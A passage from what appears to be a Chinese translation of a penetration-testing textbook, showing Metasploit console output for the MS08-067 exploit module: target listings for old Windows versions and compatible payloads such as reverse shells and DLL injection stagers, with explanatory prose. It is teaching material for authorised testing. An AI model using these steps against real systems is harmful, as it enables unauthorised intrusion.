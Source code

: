 示例 4-6. 利用目标

```
msf  exploit(ms08_067_netapi) > **show targets**

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows XP SP2 English (AlwaysOn NX)
   4   Windows XP SP2 English (NX)
   5   Windows XP SP3 English (AlwaysOn NX)
   *--snip--*
   67  Windows 2003 SP2 Spanish (NX)
```

正如在示例 4-6 中所见，这个模块可以攻击 Windows 2000、Windows 2003 和 Windows XP。

### 注意

请记住，微软已经为所有受此漏洞影响的平台发布了补丁，但要保持环境中的所有系统都及时安装 Windows 补丁并非易事。许多渗透测试客户的 Windows 系统及其他软件将会缺少一些关键更新。

我们知道我们的目标是运行 Windows XP SP3 英文版，因此我们可以猜测正确的目标编号是 5 或 6，但这并不总是这么简单。选择`自动目标选择`，让 Metasploit 指纹识别 SMB 服务，并根据结果选择适当的目标。

要设置目标选项，请输入`set target` *`<target number>`*。在这种情况下，我们将模块的目标保持为默认的`自动目标选择`，然后继续。

## 有效负载（或 Shellcode）

根据`show options`命令的输出，目前看起来一切应该就绪，但我们还没有完全完成。我们忘记告诉我们的漏洞利用一旦目标被攻击成功后该做什么。Metasploit 提供了便捷的方式来帮助我们设置有效负载。Metasploit 有许多有效负载，从简单的 Windows 命令到可扩展的 Metasploit Meterpreter（有关 Meterpreter 的详细信息，请参见第十三章）。只需选择一个兼容的有效负载，Metasploit 就会为你生成漏洞利用字符串，其中包括触发漏洞的代码和在漏洞利用成功后运行的有效负载。（我们将在第十六章至第十九章中讨论手动编写漏洞利用。）

### 查找兼容的有效负载

截至目前，Metasploit 中有 324 个有效负载，像利用模块一样，新有效负载定期会被添加到框架中。例如，随着移动平台的崛起，iOS 和其他智能手机的有效负载开始出现在 Metasploit 中。但当然，并非所有 324 个有效负载都与我们选择的漏洞利用兼容。如果我们的 Windows 系统收到本应为 iPhone 提供的指令，它会感到困惑。要查看兼容的有效负载，输入 **`show payloads`**，如示例 4-7 所示。

示例 4-7. 兼容的有效负载

```
msf  exploit(ms08_067_netapi) > **show payloads**

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   generic/custom                                       normal  Custom Payload
   generic/debug_trap                                   normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                               normal  Generic Command Shell, Bind TCP
                                                                  Inline
   generic/shell_reverse_tcp                            normal  Generic Command Shell, Reverse
                                                                  Inline
   generic/tight_loop                                   normal  Generic x86 Tight Loop
   windows/dllinject/bind_ipv6_tcp                      normal  Reflective DLL Injection, Bind
                                                                  TCP Stager (IPv6)
   windows/dllinject/bind_nonx_tcp                      normal  Reflective DLL Injection, Bind
                                                                  TCP Stager (No NX or Win7)
   windows/dllinject/bind_tcp                           normal  Reflective DLL Injection, Bind
                                                                  TCP Stager
   windows/dllinject/reverse_http                       normal  Reflective DLL Injection, Reverse
                                                                  HTTP Stager
```